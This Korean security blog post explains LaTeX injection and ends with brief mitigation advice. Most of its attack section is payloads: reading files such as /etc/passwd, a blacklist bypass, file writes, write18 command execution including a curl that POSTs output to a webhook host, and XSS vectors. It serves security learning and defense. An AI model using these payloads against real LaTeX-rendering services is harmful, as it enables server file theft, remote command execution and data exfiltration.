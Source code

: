 ```yaml
---
layout: post
title: $ \LaTeX $ Injection
subtitle: 2년동안 딱 한번 본 케이스....
author: g3rm
categories: Web
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - LaTeX
  - Formula_Injection
sidebar:
---
```

## Intro
$ \LaTeX $ 란 주로 자연과학 혹은 수리 영역 논문에 사용되는 문서 작성 도구의 일종으로 $ \TeX $ 문법을 쉽게 사용하기 위해 만든 메크로 모음집이다.   

스크립트 기능이 강하기 때문에 RCE, XSS 등의 공격이 가능하여 위험도는 매우 높습니다.   
## Detect & Exploit 
### Detect
아래 사진과 같은 수식들이 보인다면 LaTeX 문법을 사용하고 있을 가능성이 큽니다.  
![](/assets/images/posts/2024-12-05-LaTeX-Injection/LaTeXInjection_Exam.png)   
### Exploit
#### Read File
```tex
\input{/etc/passwd}
\include{somefile} # load .tex file (somefile.tex)
```   

```tex
\newread\file
\openin\file=/etc/issue
\read\file to\line
\text{\line}
\closein\file
```   
```tex
\lstinputlisting{/etc/passwd}
\newread\file
\openin\file=/etc/passwd
\loop\unless\ifeof\file
    \read\file to\fileline
    \text{\fileline}
\repeat
\closein\file
```   

```tex
\usepackage{verbatim}
\verbatiminput{/etc/passwd}
```

#### Bypass Blacklist 

- ^^41 == A
- ^^7e == ~
```tex
\lstin^^70utlisting{/etc/passwd}
```

#### Write File

```tex
\newwrite\outfile
\openout\outfile=cmd.tex
\write\outfile{Hello-world}
\write\outfile{Line 2}
\write\outfile{I like trains}
\closeout\outfile
```

#### Command Execution

```tex
\immediate\write18{id > output}
\input{output}
```   

```tex
\immediate\write18{env | base64 > test.tex}
\input{text.tex}
```   

```tex
\input|ls|base64
\input{|"/bin/hostname"}
```   

```tex
\immediate/write18{curl https://webhook -X POST -d a=$(id|base64)}
```

#### Cross Site Scripting

```tex
\url{javascript:alert(1)}
\href{javascript:alert(1)}{placeholder}
```   

```tex
\unicode{<img src=1 onerror="<ARBITRARY_JS_CODE>">}
```   
## Security Measures
사용자 입력 값이 LaTeX에 영향이 가지 않도록 하거나, 서비스 특성상
사용자가 스스로 LaTeX 문법을 이용하여 작성해야 한다면, 공격 가능한 패키지들을 포함시키지 않거나, LaTeX 문법을 실행시키는 `\`,`$` 과 같은 특수문자를 필터링해야 합니다.   
## References
[mathjax](https://docs.mathjax.org/en/latest/input/tex/extensions/autoload.html#autoload-options)   
[LaTeX Payload](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection)   
[hahwul](https://www.hahwul.com/cullinan/latex-injection/)   
